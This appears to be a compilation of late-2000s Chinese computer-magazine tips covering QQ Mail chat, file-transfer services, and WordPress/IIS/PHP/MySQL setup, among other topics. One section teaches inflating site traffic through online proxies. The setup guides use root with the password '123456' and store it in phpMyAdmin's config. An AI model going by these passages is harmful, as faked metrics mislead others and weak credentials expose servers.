借助Zapr这款免费小工具，无需上传文件，省却了大量的上传时间就能便捷地共享内容，使得操作非常简单，同时既没有单个文件及空间大小限制，又能够设置不同的权限来限制访问者的浏览，从而使自由自在共享成为现实。

### 无需下载QQ 教你用QQ邮箱和好友聊天

有时，在公共电脑中不方便使用QQ或者领导将QQ软件封了，但又想快速和某人联系，我们便可使用QQ邮箱中的页面即时聊天功能。在这次推出的即时聊天服务中，用户无需再下载QQ程序到本地，只需登录QQ邮箱，便可与已经同步的好友使用网页聊天即时联系。


在浏览器输入 http://mail.qq.com 即可进入QQ邮箱页面，QQ会员还拥有自己独立的登录网址 http://vip.mail.qq.com。登录之后，如果是第一次使用邮箱聊天功能，在“联系人”右侧有一个灰色提示（见图1），点击之后，弹出邮箱聊天提示，点击确认或者一并勾选进入邮箱自动登录聊天功能，这样以后就不要每次都手动登录了。确定后QQ邮箱便同步了QQ好友的信息（见图2），点击选择任何一位好友，便可即时聊天了，简单方便快捷。



通过邮箱聊天功能，便可与好友轻松沟通和交流，邮箱内的即时QQ窗口功能较少，但做简单交流还是相当方便和实用的。

QQ邮箱推出的即时聊天功能，一来让用户更加方便地和自己的好友进行交流，二来在QQ被限制使用的某些场所，也可以通过网页聊天的形式进行交流。可能是刚刚推出的缘故，目前功能较少，只支持一些表情，更多精彩多多期待吧。

### 中转站 让大文件共享更易

传统的文件共享，可以QQ、MSN互传，可以FTP上传下载，也可以邮箱附件，大的文件可以BT、电骡下载。使用QQ文件中转站、Foxmail中转站的共享形式，仅仅公布一个链接、一个提取码就能让众人分享到你的资源。

#### 大文件如何分享？

BT、电骡、FTP、网络硬盘，这是四种最常见的大文件分享方法。那么，在本例中，是否也可以使用这些方法呢？先别急着下结论，在下面笔者结合本例中的应用，对这四种方法进行了逐一分析。

-   **BT:** 将电影生成BT种子并发布，回家后进行BT下载。
    -   **缺点:**
        -   1. 公司电脑不能关闭，需开机做“种”。
        -   2. BT的P2P机制，决定了必需具备相当的下载用户，才能达到理想的下载速度。

-   **网络硬盘:** 将电影上传到网络硬盘，回家后下载。
    -   **缺点:**
        -   1. 网络硬盘对单个文件容量限制比较严格，如永硕(ys168.com)限制为3M。
        -   2. 网络硬盘容量有限，如网易网络硬盘仅为280M，放不下一部电影。

-   **FTP:** 寻找一个网络FTP上传电影，或者在本地计算机建立FTP，并指向电影目录，回家后使用FTP下载。
    -   **缺点:**
        -   网络FTP：很少有FTP提供数G上传空间。
        -   自建FTP：1. 公司电脑不能关闭；2. 公司电脑处于内网，不一定能实现映射，将直接导致FTP不能连接。

-   **eMule:** 将电影生成ed2k链接并发布，回家后进行eMule下载。
    -   **缺点:**
        -   1. 公司电脑不能关闭，需开机以确保下载顺利进行。
        -   2. 公司电脑处于内网，影响eMule下载速度。
        -   3. eMule的P2P机制，也将对下载速度产生影响。

#### 文件中转站最好

四种方法都存在一些不足，并不能很好地满足应用需求。究竟应该怎么做呢？很简单，使用最近开始流行的“文件中转站”，就能方便地解决这一难题。

这样一来，只需将电影上传到文件中转站，回到家后，再到文件中转站下载即可。与此同时，若是朋友们也喜欢这部电影，那么告诉他们地址，并附以提取码，就能让朋友们也能下载中转站中的电影，可谓一举两得。

文件中转站，顾名思义，就是提供大文件网络临时存储的服务，容量一般均达到G级，足以容下1~2部电影大片。此外，文件中转站还有一个特殊之处，那就是不仅能实现用户自己下载，并且还能通过权限控制，从而实现网友间的文件分享。

那么，文件中转站应该怎么用？哪一个文件中转站又好用呢？别急，在下文中，我们将对目前几个主流的文件中转站进行全方面测试，为大家推荐一个最好用的文件中转站。同时，还将Step by Step，介绍它的使用方法。

#### 主流文件中转站大比拼

截止目前，国内提供文件中转服务的网站多达数十家，这中间自然良莠不齐。在这里，笔者挑选了四个主流的文件中转站，即QQ文件中转站、Foxmail中转站、Mofile网络硬盘、新浪爱问共享资料，对它们进行一次全方位的测试，以找到一个运行最稳定、功能最优化的文件中转站。

-   中转站地址：
    -   QQ文件中转站：http://mail.qq.com
    -   Foxmail中转站：http://mail.foxmail.com
    -   Mofile网络硬盘：http://file.mofile.com
    -   新浪爱问共享资料：http://ishare.iask.sina.com.cn

网络环境：北京电信小区宽带 10M

#### ★注册比拼：

##### 新浪爱问共享资料

新浪共享需使用新浪通行证账号登录。如果已经拥有新浪通行证，则可打开新浪共享后直接登录，然后开始各种上传操作；如没有新浪通行证，则可先执行上传操作，并在文件填写页面中点击“快速注册”，在上传文件的同时完成注册。


##### QQ文件中转站

QQ文件中转站与QQ邮箱整合，而QQ邮箱又与QQ号码直接关联，因此，只需拥有一个QQ号码，并登录QQ邮箱，就能够直接使用QQ文件中转站功能。考虑到目前QQ的普及程度，QQ文件中转站的注册问题可忽略不计。


##### Foxmail中转站

Foxmail中转站同样与邮箱整合，并提供了两种注册方法。一是在Foxmail客户端中注册，在最新的Foxmail 6.5中，点击“中转站”按钮，就能免费申请Foxmail邮箱并实现中转功能；二是通过手机短信申请（0.1元/条），不过奇怪的是，居然不支持移动手机申请。

##### Mofile网络硬盘

Mofile网络硬盘的注册很简单，打开 http://file.mofile.com 后，单击“免费注册”按钮，就能通过向导模式方便地完成注册。注册完成后，就拥有了一个容量为160M的网络中转空间，通过升级则还能获取更大的容量。





很明显，在注册简便性方面，与QQ号码整合的QQ文件中转站是最方便的，潜在的用户基数也最为庞大；Mofile网络硬盘、新浪共享次之；Foxmail无疑是最麻烦的，或者有客户端、网络服务滚动推广的考虑，但这样做，很可能是两头空。

#### ★容量比拼：

上传大文件之前，显然有必要了解中转站容量。在这里，有两个数据是需要注意的，一是中转站的最高容量，二是对单个文件容量的限制。从而在上传之前，对大文件做好必要的分卷压缩工作，以顺利地完成文件中转。

##### QQ文件中转站

QQ文件中转站容量与会员级别直接挂钩，会员级别越高，享有的中转空间越大。非会员的中转空间容量为1G，会员的中转空间容量则从2G到5G不等。此外，未安装上传控件时单个文件容量限制为50M，安装控件后扩展到1G。

##### Foxmail中转站

Foxmail中转站容量为1G，未安装上传控件时单个文件容量限制为300M，安装控件后扩展到1G。此外，Foxmail早已被腾讯收购，Foxmail中转站与QQ文件中转站使用的应是同一技术，因此上传控件只需安装一次，便对QQ和Foxmail同时生效。

##### Mofile网络硬盘

Mofile网络硬盘容量为160M，单个文件容量限制为160M，可付费提升网盘容量，1G容量为10元/月，3G容量则为28元/月。Mofile提供普通上传、ActiveX断点续传、Java断点续传等三种上传方式。当选择后两种上传方式时，将会弹出控件安装窗口，选择“安装”即可。

##### 新浪爱问共享资料

新浪共享将单个文件容量限制在30M以内，但并没有对总容量进行限制，也就是说，只要做一些必要的分卷压缩工作，我们便能在新浪共享中存储无限多的文件。

从总体容量看，不作限制的新浪共享是最大的，但其单个文件容量限制在30M以内，而在实际的应用中，又有多少用户会将数十G的文件压缩为几百个分卷压缩包上传呢？因此新浪共享的无限容量无疑得打上一个问号。综合考虑，在容量方面，QQ文件中转站与Foxmail中转站具有一定优势，而Mofile网络硬盘无疑是最差的。

### 打造属于自己的视频站点

DC摄影功能日渐增强，很多人喜欢把拍摄的视频上传到优酷、土豆、新浪播客上，但那毕竟是人家的地盘，自己管理起来很不方便。最好自己能有一个专属的视频网站。不过要建立一个视频网站是一件很复杂的事情，先要有一个服务器，并且还需要有合适的程序才可以。其实并不用那么麻烦，在Fliggo网站中即可实现。

输入 http://fliggo.com/ ，登录Fliggo网站，先注册账号，点击主页面中的Get Started（开始建立）按钮就可以开始建立。在创建网站的页面输入网站的标题，并选择网站二级域名，为***.fliggo.com的二级域名（见图）。



#### 第一步：网站标题和二级域名都选择好后，点击Continue（继续）按钮进入第二步设置，描述你的网站。

需要输入网站的说明文字，还要选择网站模板类型，在Fliggo网站中提供多种视频模板，包括视频网站模板、视频博客模板，或者一个空白的支持少量视频的网站。模板选择好后，要设置视频网站的共享级别和选择你的账号类型。

#### 第二步：接下来我们要上传一个视频，当作自己网站的主打视频。

可以直接上传电脑中的视频文件，也可以调用Youtube网站的视频文件，只需输入Youtube网站视频文件地址即可。

设置都完成之后，点击Finish按钮就建立好自己的视频网站。

在自己的视频网站中可以进行视频分类，并且将电脑中的视频都上传到网站上去。最后要做的是将视频网站的域名告诉给自己的朋友，别人就可以访问属于你自己的视频网站。并且对方也可以在你的视频网站上注册账号，也可以自行上传视频。

### 小网站如何拥有大流量

很多朋友都拥有自己的博客，水平稍高的筒子还建立了自己的网站，毕竟现在用网站程序架设一个网站并非难事。可是博客有了，网站有了，烦恼事也跟着来了，看着自己的网站每天就几个人光顾，自己郁闷不说，还不好意思让朋友来光顾。该如何让这个冷冷清清的网站热闹起来呢？

#### 找法子：怎样刷流量

每个新建立的网站肯定是没有多少流量的，每天几个IP的访问量也合情合理，可是有些筒子比较心急，想短时间内就让自己的网站拥有不错的流量，那该用什么办法呢？搜索引擎优化，竞价排名？这些都太复杂，费时又费钱，并不适合刚刚建站的我们。其实借助于网上一些在线代理就可以达到快速增加流量的目的，虽然这有点自欺欺人，但对于爱面子的菜菜来说，还是非常实用的。

| 今日流量: | 6 IP | 26 PV |
| :--- | :--- | :--- |
| 昨日流量: | 5 IP | 6 PV |
| 本月合计: | 77 IP | 155 PV |
| 今年合计: | 77 IP | 155 PV |

图1 未刷之前的网站流量

刷流量之前，先看看未刷之前的网站访问量，可以看到测试网站的今日访问量为6个IP，昨日访问量为5个IP，可以说流量是比较低的。下面来看看用在线代理刷流量能达到怎样的效果。

> 小知识
PV(pageview)，即页面浏览量，或点击量；通常是衡量一个网络新闻频道或网站甚至一条网络新闻的主要指标。高手对PV的解释是：一个访问者在24小时(0点到24点)内到底查看了你网站的几个页面。需要强调：同一个人浏览你网站同一个页面，不重复计算PV量，点100次也算1次。说白了，PV就是一个访问者打开了你的几个页面。PV之于网站，就像收视率之于电视，从某种程度上已成为投资者衡量商业网站表现的最重要尺度。
IP是国际互联网协议(Internet Protocol)的简称，是通过网络间信息地址定位具体计算机的方式之一。独立IP表示，拥有特定唯一IP地址的计算机访问你网站的次数，因为这种统计方式比较容易实现，具有较高的真实性，所以成为大多数机构衡量网站流量的重要指标。使用独立用户作为统计量，可以更加准确地了解单位时间内，实际上有多少个访问者来到了相应的页面。

#### 跟我做：在线代理刷流量

打开在线代理网站：http://www.myprox.org，在页面中间的文本框中输入需要刷流量的网站地址，菜菜们当然应该在这里填上自己的网站或博客域名了。填写完毕后，点击旁边的“代理浏览”按钮，这时会出现一个新的窗口，打开的就是我们的网站，就这样简单的一个操作我们网站的访问量就多了1个IP。好了，我们点击IP地址输入框旁的代理列表下拉框，其中一般会有几十个不同的代理，我们只要按顺序选择并点击“代理浏览”按钮，这样就相当于通过几十个代理访问自己的网站，流量也就可以快速地增长了。
如果还不满意，可以再通过其他的在线代理网站刷流量，一般1个小时就可以刷上百的流量，这样就可以去朋友面前炫耀一番了。



| 今日流量: | 258 IP | 266 PV |
| :--- | :--- | :--- |
| 昨日流量: | 5 IP | 6 PV |
| 本月合计: | 77 IP | 155 PV |
| 今年合计: | 77 IP | 155 PV |

图3 刷流量后的效果

如果使用的是固定IP，访问自己的网站后会得到一个IP的流量，但是当再次访问时，流量不会变化，这是因为网站流量统计系统是根据IP地址来确定流量的，如果IP地址未变，那么即使你访问自己的网站100次，流量还是1个IP。因此，如果要让自己网站流量增加，就必须让不同IP地址的电脑访问你的网站。

-   方法有两种：
    1.  如果你是ADSL用户，可以通过断线重拨的方法，因为ADSL每次拨号后IP地址都会改变。
    2.  就是本文介绍的通过代理访问自己的网站，因为通过代理访问，网站流量统计系统记录下的就是代理的IP地址。

> 网络大晒场
常用在线代理网站地址：
http://www.coobai.com
http://dai.li
http://qlba8.cn
http://web.sunsen.net
http://web.proxycn.com
http://proxy.daili.name

### 快速调整Excel行列顺序

在Excel中调整行和列的顺序有多种方法，一是先选中对应行列并剪切，然后插入辅助的行或者列再粘贴，二是对选中的行列执行了剪切操作后，在目标行列位置的右键菜单中单击“插入已剪切的单元格”命令。

其实，还有一个更加快捷的方法，首先单击行列标题选中需要调整的行或者列，然后在按住Shift键的同时用鼠标拖动行或者列的分界线至目标位置，通过这种方法可以调整多行或者多列数据的位置，只需选中对应的多行或者多列即可。

### 是赢是输 自架博客的利与弊

自己架设博客，存在有利的一面，也存在不利的一面。好处是自己的博客毕竟是自己的，皮肤模板都可以自己定制，自由度很大，另外对于自己博客的后期发展有利。来看看缺点：

-   1. 自己架设的博客需要自己的服务器，前期虽然可以用自己的PC电脑或租借虚拟空间，但是这些都需要成本付出。
-   2. 自家架设博客，其整个系统的安全性就需要自己负责，这对很多不具备电脑安全知识的网友来说是比较困难的，想像一下自己的博客被黑客攻击并挂上恶意软件和木马，那是多么可怕的一件事儿。
-   3. 开始时自己架设的博客没有宣传没有人气，不利于前期发展。

> PHP服务器的架设的简便方法
有的筒子接触电脑的时间不长，技术较菜，没关系，除了完全DIY的方法外，还可以走捷径，直接安装一些已经集成PHP服务器环境的安装包。例如一款名为“PHP服务器”的软件，已经内置了PHP、MYSQL以及Zend Optimizer，安装过程和安装普通软件无异，安装完成后所有的程序都已经配置好，可以直接使用。如果你未能完成PHP服务器的架设，那么不妨试试这种办法。

> 先不要急于行动
建议先在一个知名的博客服务提供商申请一个博客，聚集一定的人气，当人气达到一定规模时再使用搬家工具，将自己的博客搬到自己的服务器上。
当然看了上面这样的利弊，大家依然坚持自己建站的话，那么我在这里再教大家几个自己建独立博客的小技巧。

> 架独立博客和架设网站一样
其实安装PHP网站和安装WordPress并没有多大区别，一般步骤为：建立MYSQL数据库——修改程序中的数据库配置文件——安装。只不过安装PHP网站程序需要后期配置的东西比较多，毕竟是网站，安全性的考虑和整体运行效率都比博客要复杂。所以当你学会安装WordPress后，可以接着尝试一下安装php的网站程序，学以致用，才能达到更好的学习效果。

### 为自己的博客添加流量统计

自己的博客正式上线，一定想知道有多少人来过吧。WordPress虽然没有自带流量统计功能，但是我们可以通过插件来实现。此外，还可以借助专业的流量统计网站所提供的服务，例如51.la。在浏览器中输入 http://www.51.la/ ，打开51.la网站，如图1所示，在首页点击“注册”按钮，填写相关信息注册一个账户，然后点击“开通统计ID”按钮，接着点击“获取统计代码”链接，这时我们会看到“统计计数代码”处一大段的代码，将这段代码复制下来。

打开WordPress安装目录中的 wp-content/themes/default/footer.php 文件，将代码插入到“</body>”这一语句之前，然后保存该文件。回到WordPress的首页，刷新一下，我们会在页面的最下方找到一个51.la的统计小图标，如图2所示，点击后即可进入到51.la的网站流量统计界面，自己的博客有多少人访问一目了然。





### QQ会员头像，简便才是硬道理

文/孙学荣
看了《电脑爱好者》2008年第19期48页《不花钱也用QQ会员头像》一文后，觉得文中介绍的2种保存会员头像的方法都有些麻烦。我想既然是上传QQ会员头像，我们直接用QQ聊天对话框自带的截图功能就可以轻松搞定。
首先，进入QQ会员专区中的会员头像。然后点击QQ聊天会话框的截图按钮（用快捷键Ctrl+Alt+A亦可），截取我们心仪的会员头像图片。调整好大小后，右击鼠标另存为至桌面，完成图片的保存。最后，进入QQ的个人设置，点击“更改头像”，再点“本地上传”，就可以上传刚刚保存在桌面的QQ会员头像。

> 小提示
对于QQ达到太阳级别的用户，只要发现大小合适的漂亮图片，都可以上传作为QQ头像。

## 我最省钱！WordPress建免费个人博客

没有博客，就不能算网虫。新浪、搜狐博客，既免费又稳定，可是这样的博客即使带来众多流量，日后的收益也只是人家新浪、搜狐的收入，个人无法获益；放在收费的虚拟空间上？有点奢侈，空间、域名的开支也不小。最省钱的办法就是自己架设博客！如果你已经搭建起了一个PHP服务器的环境，完成后，你的电脑就已经是一片拥有肥沃土壤的苗圃，在上面可以种植果树等着秋天的果实吧。那这里的果树是什么呢？就是PHP体系中的博客程序：WordPress。

-   你需要先了解：
    WordPress是一种使用PHP语言开发的Blog博客引擎，用户可以在支持PHP和MySQL数据库的服务器上架设自己的Blog。也可以认为WordPress就是一个个人信息发布平台。WordPress在GPL下授权发布。它是一个新的网志出版工具，有别于其他类似工具，比较关注Web标准和用户体验。主要的开发者是Matthew Mullenweg和Mike Little。
    WordPress的原版是英文版的，编码为UTF-8。有爱好者开发了中文语言包，使其可以支持中文。不过由于编码原因，中文字符截断时会出现乱码，网友制作的中文WordPress插件，可以解决这个问题。

-   你可以先逛逛：
    WordPress官方站点：http://wordpress.org/
    WordPress中文网：http://wordpress.org.cn/
    非官方中文站：http://wpchina.org/
    主题站：http://themes.wopus.org/
    打造完美博客的35个WordPress插件：http://www.happinesz.cn/archives/403/

### 上篇：给WordPress安家

### 调控安装

没有建站经验的朋友，可能会觉得安装网站程序就像安装普通应用程序一样，运行安装文件一路Next。其实不是这样的，安装网站程序要比安装应用程序复杂得多，并且不同的网站程序有不同的安装方法，可能只是因为一些细小的差别，就会造成网站程序安装不成功。所以无论安装什么网站程序，先看安装说明是很有必要的（尤其是PHP网站程序）。

我们可以看到“创建一个新的数据库”标签，在下面的文本框中输入wp，然后点击右侧的“创建”按钮（见图1）。这样一个名为wp的新数据库就创建完成了。

#### 第一步：

WordPress需要MySQL数据库才能运行，因此在安装之前需要在MySQL中建立一个新的数据库。在IE浏览器中输入：http://localhost/phpmyadmin/，回车后会出现phpmyadmin的登录界面，输入用户名root，密码123456，点击“执行”按钮进行登录。在phpmyadmin的首页中，我们可以看到“创建一个新的数据库”标签，在下面的文本框中输入wp，然后点击右侧的“创建”按钮（见图1）。这样一个名为wp的新数据库就创建完成了。

#### 第二步：

之后需要修改WordPress的安装文件，让它可以在我们的服务器上安装。在WordPress的安装目录中找到wp-config-sample.php文件，用“记事本”程序打开它，点击“搜索→查找”用以下关键字进行搜索并修改为相应的值（见图2）：

```
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wp');
/** MySQL database username */
define('DB_USER', 'root');
/** MySQL database password */
define('DB_PASSWORD', '123456');
/** MySQL hostname */
define('DB_HOST', 'localhost');
/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8');
```

修改完成后保存文件，并将其重命名为wp-config.php。

#### 第三步：

在IE中输入：http://localhost/wp-admin/install.php打开WordPress的安装向导，在“欢迎”信息中填入“blog”的名称和自己的邮箱，点击“安装WordPress”按钮继续。如果之前的步骤未出错的话，WordPress将会提示安装成功，并且显示博客账户名为admin，密码为一串随机字符，这里最好将这串随机字符密码复制下来，然后登录后修改成自己的密码。

> 修改密码的方法：点击后台页面侧边栏的“用户→admin→编辑”，在admin账户页面最下方的“新密码”处修改密码。

在浏览器中输入http://localhost/，一个简洁清爽的博客页面出现在面前，这就是安装好的WordPress。现在就可以在自己搭建的博客上写文章了。所以搭建服务器和架设博客其实并不难，只要根据文章的步骤一步一步操作下去，一般都可以轻松搞定。这个过程远比在新浪、网易上申请博客服务要有趣得多，DIY的乐趣就是这样体现的。

### 美化换装

WordPress安装完成后，默认自带两款皮肤，一款就是我们在首页看到的，采用天蓝色和白色的皮肤。另一款是橄榄绿和白色搭配的皮肤，这两款皮肤都比较简单，对于喜欢个性的朋友来说太过于平庸，该如何对WordPress进行换肤呢？

给WordPress换肤是很简单的一件事，首先当然就是要下载皮肤，皮肤文件到http://wordpress.org.cn/forum-24-1.html处下载。皮肤文件通常以压缩包的形式发布，如果压缩包中是一个皮肤文件夹，那么直接将这个文件夹解压到WordPress安装目录的wp-content/themes文件夹中即可。如果压缩包中是一大堆零碎的皮肤文件，可以先在wp-content/themes目录中新建一个文件夹，名字任意，然后将压缩包中的皮肤文件都解压到这个文件夹中。

接着来到WordPress的后台页面，点击侧边栏的“外观”，新安装的皮肤就会出现在右侧了，现在看到WordPress已经拥有了三款皮肤。点击新安装的皮肤，WordPress将会出现一个预览效果，可以查看WordPress使用该皮肤后的效果，如果觉得满意，可以点击“启用（皮肤名）”按钮，这样首页的皮肤就会被替换成新安装的皮肤了。

网上现成的WordPress皮肤很多，足够满足你的需求。如果你想让自己的博客充分体现你的个性，我们也可以自己设计WordPress的皮肤，当然这需要你有一定的设计方面的知识。有兴趣的朋友可以参考：http://unnet.blogbus.com/logs/32388630.html。

### 插件武装

WordPress可以安装各种各样的插件让自己更强大，例如Flash相册、防垃圾评论、快速修改、流量统计等等。

WordPress Plugin扩展插件太多，只要你掌握了plugin目录下插件文件的使用方法，什么程序在你的眼里都将会是小儿科。只需要把插件文件上传到你的FTP的plugin目录下，就可以直接在后台启用管理。甚至功能强大点的插件会有一个自己的管理目录在后台出现，就像程序自带的方便，它强大的插件囊括的所有互联网上可以实现的功能。WordPress可以说是目前最先进的博客程序。目前开发的程序大多都是根据它仿造的。它更能把握搜索引擎，在你使用WordPress并掌握几种插件后，对于优化将不用过多的操心，它会为你想的更多。

#### 方法一：

在后台页面的侧边栏中点击“插件”按钮，在出现的菜单中选择“安装插件”。进入“安装插件”页面后，我们可以在“搜索”栏中直接输入插件的名字，程序会自动到WordPress的官方网站进行搜寻，找到后下载即可。也可以点击“从zip压缩包安装插件”处的浏览按钮，选择自己从别处下载的插件zip包，程序会自动进行安装。

#### 方法二：

和安装皮肤的方法差不多，直接将插件解压到wp-content/plugins目录中即可。

安装完毕后点击“插件”按钮，进入“管理插件”页面，我们会看到新安装的插件，点击“启用”按钮即可将它激活。WordPress的插件大部分在安装完成后都需要进行一些设置，以达到最好的使用效果。因此大家在安装插件前一定要看使用说明，否则就白忙活一场了。

| 插件名称 | 版本 | 描述 |
|---|---|---|
| fShowManager | 1.1.1 | This plugin flash carous... |

> 插件最好只安装最需要的；当心一些插件安装时要你修改WordPress程序文件。

### 下篇：让WordPress干活

-   - IIS (下载: http://www.newhua.com/soft/38502.htm)。
    - PHP (5.2.8)、MySQL (5.0.22)、ZendOptimizer (3.3.3)、phpMyAdmin (3.1.2)，下载地址：http://www.newhua.com/soft/22078.htm。

### PART1 安装IIS

IIS (Internet Information Server, 互联网信息服务) 是一种Web (网页) 服务组件，其中包括Web服务器、FTP服务器、NNTP服务器和SMTP服务器，分别用于网页浏览、文件传输、新闻服务和邮件发送等方面，它使得在网络（包括互联网和局域网）上发布信息成了一件很容易的事。

将下载下来的IIS5.1压缩包进行解压。依次进入“我的电脑→控制面板→添加或删除程序”，见图4，点击“添加/删除Windows组件”，勾选“Internet信息服务”，点击“下一步”。IIS开始安装，但是安装过程中会提示缺少文件，需要点击“浏览”按钮，选择刚才已解压文件夹中的文件，点击“确定”，之后会有多次提示，进行相同操作即可。

### PART2 安装PHP

IIS默认并不支持PHP的网页，需要PHP程序包来让IIS支持PHP的网页。

在D盘根目录新建一个名为“php”的文件，将PHP压缩包内的文件都解压到该文件夹中。将php目录中的php.ini-dist文件重命名为php.ini，复制到C:Windows文件夹中。并将同目录下的libmcrypt.dll、php5ts.dll、libMySQL.dll文件复制到C:Windowssystem32文件夹中。

用记事本打开C:Windowsphp.ini，搜索“extension_dir = "./"”，将其修改为“extension_dir= "D:PHPext"”，找到“;extension=php_mbstring.dll”、“;extension=php_gd2.dll”、“;extension=php_MySQL.dll”以及“;extension=php_mcrypt.dll”，将其前面的“;”号删除，修改完成后保存。

### PART 3 安装MySQL

一般这类博客程序的运行都需要数据库的支持，PHP的博客程序则通常使用MySQL程序。首先，运行MySQL压缩包中的Setup.exe，点击Next进行安装。在Setup Type(安装种类)步骤中选择Custom（自定义）选项，点击Next。点击Change（改变），将其安装目录设置为“D:\MySQL”。点击Install（安装）进行安装。安装结束时，在MySQL.com Sign-up（MySQL.com登入）步骤中选择Skip Sign-Up（跳过登入），点击Next完成安装，最后勾选Configure the MySQL Server now（现在确认MySQL服务器）进入配置向导。

点击Next，选择Detailed Configuration（细节设置）。点Next，选择第二项Server Machine（服务器机器）。点Next选择Non-Transactional Database Only。再点Next，选择Manual Setting（主要设置），连接数根据访问数设置，一般设置为50足矣。

点击Next，设置其连接端口，保持默认的3306即可。点Next，勾选Manual Selected Default Character Set/Collation，在下面的Character Set（字体设置）选项处选择编码，一般选择为gbk。点Next，在Include Bin Directory in Windows PATH选项前打钩，点Next。在文本框中输入两次密码，最后点击Execute（结果）完成所有设置。

点击“开始→所有程序→MySQL→MySQL Command Line Client”，输入刚才设置的密码，回车后如果出现“mysql>”则表示MySQL安装成功。

### PART 4 安装ZendOptimizer

ZendOptimizer是一款加速PHP程序运行的工具，安装后对PHP程序的优化将十分明显。

双击运行ZendOptimizer-3.3.3-Windows-i386.exe，点Next。勾选I accept……，再点Next，接着点Browse将程序安装到D:end。点Next，勾选IIS选项，再点Next。点Next，在Choose the php.ini folder（选择文件夹）步骤中将网站的目录设置为C:\windows。

在Choose the Web server's root folder步骤中将网站的目录设置为D:\wwwroot，最后点Install即可完成安装。

### PART 5 安装phpMyAdmin

由于MySQL的操作比较复杂，对数据库的操作还需要通过输入命令来完成。而phpMyAdmin是一款可以通过图形界面对MySQL进行操作的软件，因此在安装后将大大方便MySQL的操作。

将phpMyAdmin从压缩包里解压出来，将文件夹重命名phpMyAdmin，复制到D:wwwroot目录下。

用“写字板”打开D:wwwrootphpMyAdmin libraries下的config.default.php文件，搜索“$cfg['Servers'][$i]['auth_type']”，将后面的cookie值修改为config。搜索“$cfg['Servers'][$i]['password']”，将后面的值修改为MySQL密码，例如“$cfg['Servers'][$i]['password'] = '123456'”，修改完成后对文件保存。

### PART 6 让IIS支持PHP

最后，我们要做的就是让IIS能够调用PHP.ini对PHP文件进行解析。

-   第一步：进入“控制面板→管理工具→Internet信息服务”，依次展开“网站→默认网站”，在上面点击右键，选择“属性”。切换到“ISAPI筛选器”标签，点击“添加”，出现“筛选器属性”窗口，在“筛选器名称”中填入php，“可执行文件”中填入“D:\PHP\php5isapi.dll”，点确定。
-   第二步：再切换到“主目录”标签，点击“浏览”，将路径修改为D:\wwwroot。再点击下方的“配置”按钮，出现“应用程序配置”窗口，点击“添加”。在窗口的“可执行文件”栏中填入D:\PHP\php5isapi.dll，“扩展名”处填入“.php”，点“确定”。

接着切换到“文档”标签，再点“添加”按钮，在弹出的“添加默认文档”对话框中，填入“index.php”，点击“确定”退出。

至此，该安装的程序我们都已经安装完毕了，最后来测试一下php程序能否运行，在记事本中输入以下内容：

```
<?php
phpinfo();
?>
```

输入完毕后保存为index.php，将其放到D:\wwwroot目录中。在浏览器中输入http://localhost/，如果出现php的配置信息，说明已经成功搭建PHP服务器了。

### 如何手工备份WordPress？

服务器丢失数据造成的损失很大，定期备份，是每一个wordpresser都可以轻松做到的。安装WordPress Database Backup插件，进入后台。选择“管理→backup”，可以看到WordPress相应的列表，全部勾上，点击backup（备份），等进度条完成以后，把备份文件保存。

### 从‘燕莎’到‘赛特’——网店搬家

金融危机，让不少在沿海打工的打工者纷纷返乡，大伙来了个从南往北的大搬家。现如今，网络上也吹起了这股浪潮，各大网店也纷纷加入了搬家的队伍，准备择良木而栖，从‘燕莎’搬到‘赛特’。网店到底该如何搬家？怎样搬家才最省事？相信大家都等着急了吧。话不多说，接着往下看吧。

#### 将原平台上的商品打包

乍一听，这是个比较麻烦的过程，特别是如果需要搬运的商品比较多的话。一个一个商品依次地下载，然后再打包。这对大批商品来说，可是个费力不讨好，早已被淘汰的方法了。现在我们的搬家过程可是有‘搬家助理’的全程护航，省时省力不说，还能确保安全无遗漏。

http://www.taobao.com/help/wangwang/wangwang_0628_05.php，在进行搬家工作之前还是赶快去这个地址下载一个‘淘宝助理’吧。

首先我们需要打开‘淘宝助理’。点击‘下载宝贝’将店铺里还没有来得及下载下来的‘燕莎’商品转移到‘淘宝助理’（见图1）。

接着，就在下载下来的商品中把需要搬家的商品挑选出来（见图2），当然为了方便用户的使用，这个挑选过程可是能多选的，赶快行动起来吧。挑选完毕了没？其实就是选中的过程啦。然后就只需要单击鼠标右键，在出现的快捷菜单中选择‘导出到CSV文件’这个选项。其实这里的这个CSV文件实质上就是个商品库，一个没加密的数据而已。

到现在为止，搬家的第一步就完成了，有了‘淘宝助理’的帮助，旧物打包过程是不是相当的简单啊？接下来的可就是繁重的搬运过程了。

> 一般来说，搬家就只需要有三个步骤即可完成：第一步，将所有需要移动的物品打包；第二步，请个专业的搬家公司帮助我们搬家；第三步：在新家将所有物品摆放好。其实，网店的搬家也无外乎这三个步骤，下面我们就来详细地说说看。

#### 请个助手来搬家

在网上怎么搬运？别急，慢慢来嘛。既然新店是在百度交易平台上的‘赛特’，那就先给大家介绍一个新朋友——百度有啊的搬家助理（见图3）。和它交朋友算是比较麻烦的，首先必须激活百度电子商务支付平台上的‘百付宝’，还要通过平台上卖家的实名认证。耐心完成以上两个步骤，你才能看到这位传说中‘搬家助理’的下载链接。终于看到庐山真面目了，还不赶快下载？这家伙不大，压缩后还不够1MB。给它松松筋骨，先解压再运行该程序，小家伙就开始为你开始搬家工作啦。

通过‘搬家助理’将先前通过‘淘宝助理’导出的CSV文件再次导入，导入后还得耐心地输入卖家用户名和密码之类的资料才行，当然这些步骤系统是会一步步给你提示的。

都填写好后，‘搬家助理’就开始把旧平台上的商品上传到新平台上。如果你需要上传的商品比较多，建议你趁这段空闲时间忙里偷闲，好好坐下来喝杯咖啡吧。如果搬家工作完成，‘搬家助理’会在第一时间向你报告。

#### 打理新店，等待开张

好不容易，商品全部搬运到了新的平台上了，别着急，你暂时在新平台上还看不到它们。一般情况下，仍然需要等24小时左右。再接下去，店内的工作就还是得靠各位店主自己动手完成了。如果你还有什么不满意的地方，就自己动动手，做一些细微的调整吧。在这里值得一提的是：百度的交易平台上允许单个商品橱窗最多上传4张展示图片。更加有利于店主全方位地介绍自己的宝贝，吸引更多相同的爱宝之人，生意也将越来越好。

搬家工作就这样轻松完成了，是不是很方便？在这里我建议商品较少的卖家，实在就没必要大材小用，还是一件一件的搬比较好，毕竟24小时的等待时间也是能做上几单交易的。

网店搬完家了，好好经营吧。我在这也祝愿大家的网店在新的平台上，生意越做越好。

## 网购不被骗 得懂点反‘忽悠’绝招

